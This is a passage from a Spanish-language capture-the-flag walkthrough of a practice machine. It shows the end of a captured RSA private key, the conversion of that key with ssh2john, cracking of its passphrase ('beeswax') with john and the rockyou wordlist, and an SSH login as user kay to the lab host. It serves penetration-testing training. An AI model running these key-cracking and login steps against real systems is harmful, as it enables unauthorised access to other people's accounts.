 ```bash
t/CCVLBkM22Ewao8glguHN5VtaNH0mTLnpjfNLVJCDHl0hKzi3zZmdrxhql+/WJQ
4eaCAHk1hUL3eseN3ZpQWRnDGAAPxH+LgPyE8Sz1it8aPuP8gZABUFjBbEFMwNYB
e5ofsDLuIOhCVzsw/DIUrF+4liQ3R36Bu2R5+kmPFIkkeW1tYWIY7CpfoJSd74VC
3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
-----END RSA PRIVATE KEY-----
```

El output lo metes en un archivo que creaste `_rsa` para usar `john`

```bash
❯ /usr/share/john/ssh2john.py xd_rsa > khash.txt
```

Y tenemos la contraseña del usuario

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt khash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (xd_rsa)
1g 0:00:00:08 DONE (2023-02-28 20:03) 0.1175g/s 1685Kp/s 1685Kc/s 1685KC/sa6_123..*7¡Vamos!
Session completed
```

`kay:beeswax`

```bash
❯ chmod 600 xd_rsa
```

## Shell kay 

Funciona

```bash
❯ ssh -i xd_rsa kay@10.10.255.61
Enter passphrase for key 'xd_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ 
```
